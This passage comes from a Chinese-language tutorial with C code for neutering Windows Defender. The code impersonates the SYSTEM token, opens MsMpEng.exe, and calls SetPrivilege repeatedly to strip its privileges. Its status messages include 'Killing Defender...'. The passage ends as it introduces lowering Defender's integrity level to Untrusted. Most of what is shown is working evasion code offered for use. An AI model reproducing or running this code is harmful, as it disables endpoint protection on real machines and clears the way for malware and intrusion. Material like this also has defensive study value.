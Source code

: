     // 尝试以目标用户身份运行  
    if (ImpersonateLoggedOnUser(ptoken)) {  
        printf("[*] Impersonated System!\n");  
    }  
    else {  
        printf("[-] Failed to impersonate System...\n");  
    }  
    // 关闭句柄  
    CloseHandle(phandle);  
    CloseHandle(ptoken);

#### 3.降低令牌权限

以下代码的主要目的是获取`MsMpEng.exe`的句柄，启用该进程的调试特权，并通过`SetPrivilege()`函数移除`MsMpEng.exe`的大部分权限，这使得Windows
Defender丧失了很多能力，包括加载驱动程序、更改系统环境、备份文件等

    
    
    // 重复上述步骤，但目标进程改为"MsMpEng.exe"  
    wchar_t procname2[80] = L"MsMpEng.exe";  
    pid = getpid(procname2);  
    printf("[*] Killing Defender...\n");  
    phandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);  
    if (phandle != INVALID_HANDLE_VALUE) {  
        printf("[*] Opened Target Handle\n");  
    }  
    else {  
        printf("[-] Failed to open Process Handle\n");  
    }  
    EnableDebugPrivilege(phandle,&ptoken);  
    // 以下一系列SetPrivilege调用移除了所有特定的权限  
    SetPrivilege(ptoken, SE_DEBUG_NAME, TRUE);  
    SetPrivilege(ptoken, SE_CHANGE_NOTIFY_NAME, TRUE);  
    SetPrivilege(ptoken, SE_TCB_NAME, TRUE);  
    SetPrivilege(ptoken, SE_IMPERSONATE_NAME, TRUE);  
    SetPrivilege(ptoken, SE_LOAD_DRIVER_NAME, TRUE);  
    SetPrivilege(ptoken, SE_RESTORE_NAME, TRUE);  
    SetPrivilege(ptoken, SE_BACKUP_NAME, TRUE);  
    SetPrivilege(ptoken, SE_SECURITY_NAME, TRUE);  
    SetPrivilege(ptoken, SE_SYSTEM_ENVIRONMENT_NAME, TRUE);  
    SetPrivilege(ptoken, SE_INCREASE_QUOTA_NAME, TRUE);  
    SetPrivilege(ptoken, SE_TAKE_OWNERSHIP_NAME, TRUE);  
    SetPrivilege(ptoken, SE_INC_BASE_PRIORITY_NAME, TRUE);  
    SetPrivilege(ptoken, SE_SHUTDOWN_NAME, TRUE);  
    SetPrivilege(ptoken, SE_ASSIGNPRIMARYTOKEN_NAME, TRUE);  
    printf("[*] Removed All Privileges\n");  
    }

#### 4.设置进程完整级别为Untrusted

通过`SetTokenInformation()`函数将MsMpEng.exe的完整性级别设为Untrusted，这是最低的完整性级别，进一步限制了Windows
Defender的能力

    
